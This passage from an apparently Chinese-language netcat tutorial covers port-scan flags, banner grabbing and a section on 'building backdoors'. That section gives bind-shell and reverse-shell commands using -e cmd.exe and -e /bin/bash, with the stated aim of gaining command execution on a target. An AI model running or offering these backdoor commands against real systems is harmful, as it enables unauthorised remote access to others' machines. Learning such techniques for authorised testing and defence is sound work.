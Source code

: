 + -v  表示对错误进行详细输出。
+ -n  不对目标机器进行DNS解析。
+ -z  zero I/O 模式，专用于端口扫描。表示对目标IP发送的数据表中不包含任何payload，这样做可以加快扫描的速度。
+ -w1  超时1秒，即关闭等待连接。

扫描：

[![gh1qc4.png](https://z3.ax1x.com/2021/05/18/gh1qc4.png)](https://imgtu.com/i/gh1qc4)

#### banner抓取使用方法

```
echo " " | nc -v -n -w1 [target_ip] [start_target_port-stop_target_port]
```

抓取某目标机1-1000端口的banner信息：

```
echo " " | nc -v -n -w1 192.168.78.129 1-1000
```

### netcat建立后门

#### 使用场景

##### 1.获取目标的命令执行权限

当目标机器上存在netcat之后，可以使用netcat建立后门，来实现目标执行的功能。

##### 原理

netcat一切数据是通过标准输入/输出流实现的，所以可以利用netcat的命令进行后门建立，并传输结果信息。

##### Windows建立后门方法

+ 监听型后门

```
nc -l -p 4444 -e cmd.exe
```

+ 连接型后门

```
nc [remote_ip] [remote_port] -e cmd.exe
```

无论哪种后门，都需要使用``-e cmd.exe``来返回对应的cmd.exe。

##### Linux建立后门方法

+ 监听型后门

```
nc -l -p 4444 -e /bin/bash
```

+ 连接型后门

```
nc [remote_ip] [remote_port] -e /bin/bash
```
